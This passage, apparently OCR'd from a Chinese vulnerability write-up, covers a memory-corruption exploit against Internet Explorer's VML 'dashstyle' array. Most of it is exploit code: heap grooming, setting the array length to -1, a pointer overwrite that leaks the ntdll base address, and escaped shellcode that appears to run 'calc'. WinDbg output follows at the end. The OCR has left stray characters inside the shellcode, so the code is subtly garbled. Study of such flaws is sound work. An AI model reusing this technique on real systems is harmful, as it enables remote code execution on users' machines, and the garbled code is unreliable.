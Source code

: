 		a[i] = document.getElementById("rect" + i.toString())._vgRuntimeStyle;

	}

		for (var i = 0; i < 0x400; i++){

		a[i].rotation;

		if (i == 0x300) {

			vml1.dashstyle = "1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24
			25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44"

		}

	}

产生漏洞

	var length_orig = vml1.dashstyle.array.length;//44

	vml1.dashstyle.array.length = 0 - 1;

修改marginLeft指针

	for (var i = 0; i < 0x400; i++){

	marginLeftAddress_orgin = vml1.dashstyle.array.item(0x2E+0x16);

	a[i].marginLeft =
	unescape("%uC933%u8B64%u3041%u588B%u8B0C%u1473%u96AD%u8BAD%u1058%u538B%u033C%u8BD3%u7852%uD303%u728B%u0320%u33F3%u41C9%u03AD%u81C3%u4738%u7465%u7550%u81F4%u0478%u6F72%u4163%uEB75%u7881%u6408%u7264%u7565%u8BE2%u2472%uF303%u8B66%u4E0C%u728B%u031C%u49F3%u148B%u038E%u68D3%u6578c%u5768%u6E69%u5445%uFF53%u6AD2%u6800%u6163%u636C%uFC8Bj%uFF57%uC3D0");

	marginLeftAddress_modify = vml1.dashstyle.array.item(0x2E+0x16);

	if (marginLeftAddress_orgin != marginLeftAddress_modify) {

			vml1.dashstyle.array.item(0x2E+0x16) = 0x7ffe0300;

			var leak = a[i].marginLeft;

			vml1.dashstyle.array.item(0x2E+0x16) = marginLeftAddress_orgin;

			var shelladdr = marginLeftAddress_modify;

			ntdllbase = parseInt(leak.charCodeAt(1).toString(16) +
			leak.charCodeAt(0).toString(16), 16) - 0x470B0;

		}

	}

首先还是关闭页堆，然后在vgx!MsoFCreateArray下断，查看vgx!ORG对象的地址，然后运行到vgx!COARuntimeStyle::get_marginLeft

	VGX!MsoFCreateArray+0xf:

	72b9d1ee e88a67fdff call VGX!operator new (72b7397d)

	0:005:x86> p

	VGX!MsoFCreateArray+0x14:
